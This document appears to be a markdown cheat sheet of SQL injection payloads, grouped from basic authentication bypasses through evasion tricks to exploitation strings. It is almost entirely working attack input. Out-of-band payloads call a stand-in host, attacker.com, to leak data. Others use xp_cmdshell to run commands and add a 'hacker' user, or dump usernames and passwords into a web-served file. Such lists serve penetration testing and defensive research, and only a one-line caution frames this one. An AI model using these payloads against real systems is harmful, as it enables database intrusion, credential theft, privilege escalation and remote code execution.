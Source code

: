 ### Common SQL Injection Payloads

Below is a list of common payloads to test for SQL Injection vulnerabilities. Start with simple payloads to detect vulnerabilities, then escalate to advanced, database-specific, or obfuscated payloads. Use with caution in controlled environments to avoid data corruption.

- **Basic Injection Payloads**:
  - `' OR '1'='1` (Authentication bypass)
  - `' OR 1=1 --` (Comment out query)
  - `' UNION SELECT NULL, NULL --` (Union-based)
  - `' ORDER BY 1 --` (Column enumeration)

- **Error-Based Payloads**:
  - `' AND 1=CONVERT(int,@@version) --` (MSSQL error)
  - `' AND 1=CAST(version() AS int) --` (PostgreSQL error)
  - `' AND (SELECT COUNT(*) FROM dual)=1 --` (Oracle error)
  - `' AND EXTRACTVALUE(1,CONCAT(0x7e,version())) --` (MySQL error)

- **Non-Classic Vector Payloads**:
  - **Header**: `User-Agent: ' OR '1'='1`
  - **Cookie**: `session=1' OR '1'='1`
  - **JSON**: `{"id":"1' OR '1'='1"}`
  - **XML**: `<id>1' OR '1'='1</id>`

- **Out-of-Band (OOB) Payloads**:
  - `'; EXEC xp_dirtree('\\attacker.com\foo') --` (MSSQL)
  - `SELECT LOAD_FILE(CONCAT('\\\\',@@hostname,'.attacker.com\\')) --` (MySQL)
  - `'; DECLARE @q varchar(99); SET @q='\\attacker.com\foo'; EXEC master.dbo.xp_dirtree @q --` (MSSQL)
  - `UNION SELECT UTL_HTTP.REQUEST('http://attacker.com') FROM dual --` (Oracle)

- **Database-Specific Payloads**:
  - **MySQL**: `' UNION SELECT @@version --`
  - **MSSQL**: `' EXEC xp_cmdshell('dir') --`
  - **Oracle**: `' AND 1=(SELECT COUNT(*) FROM all_users) --`
  - **SQLite**: `' UNION SELECT sqlite_version() --`
  - **PostgreSQL**: `' AND 1=(SELECT version()) --`

- **Evasion Payloads**:
  - `%27%20OR%20%271%27=%271` (URL-encoded)
  - `'%09OR%09'1'='1` (Tab-separated)
  - `/*comment*/' OR '1'='1` (Inline comment)
  - `' oR '1'='1` (Case manipulation)

- **Stored Injection Payloads**:
  - `' OR 1=1; INSERT INTO logs (data) VALUES ('malicious') --`
  - `' UNION SELECT username, password FROM users INTO OUTFILE '/var/www/dump.txt' --`
  - `' OR 1=1; UPDATE users SET role='admin' WHERE id=1 --`
  - `' EXEC sp_addlogin 'hacker','password' --`

- **Exploitation Payloads**:
  - `' EXEC xp_cmdshell('net user hacker pass /add') --` (MSSQL RCE)
  - `' AND 1=(SELECT sys_exec('whoami')) --` (Oracle RCE)
  - `' UNION SELECT 'sa', NULL FROM sys.sql_logins --` (MSSQL privilege check)
  - `' AND 1=(SELECT UTL_INADDR.GET_HOST_ADDRESS('attacker.com')) --` (Oracle OOB)
